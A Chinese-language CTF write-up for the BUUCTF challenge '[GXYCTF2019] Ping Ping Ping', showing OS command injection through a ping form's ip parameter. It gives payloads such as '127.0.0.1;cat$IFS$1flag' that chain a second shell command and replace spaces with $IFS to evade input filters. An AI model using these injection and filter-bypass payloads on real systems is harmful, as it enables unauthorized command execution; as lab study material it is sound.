 # BUUCTF——Web

## 特殊题

### [GXYCTF2019]Ping Ping Ping（ping的绕过）

ping题，打开后可以输入IP，然后进行ping操作，应该是这样的。

查看一下文件

```
?ip=127.0.0.1;ls
```

![image-20200928195456266](BUUCTF——Web.assets/image-20200928195456266.png)

就在这，开始考虑绕过

```
?ip=127.0.0.1;cat flag
```

![image-20200928195401817](BUUCTF——Web.assets/image-20200928195401817.png)

空格被绕过了

考虑用**${IFS}$来代替空格“ ”**

```
?ip=127.0.0.1;cat${IFS}$flag
```

![image-20200928200236547](BUUCTF——Web.assets/image-20200928200236547.png)

又被骂了，可能还有别的绕过，把**${IFS}$换成$IFS$1**

```
?ip=127.0.0.1;cat$IFS$1flag
```

![image-20200928201418164](BUUCTF——Web.assets/image-20200928201418164.png)

flag也被绕过了，去看index.php
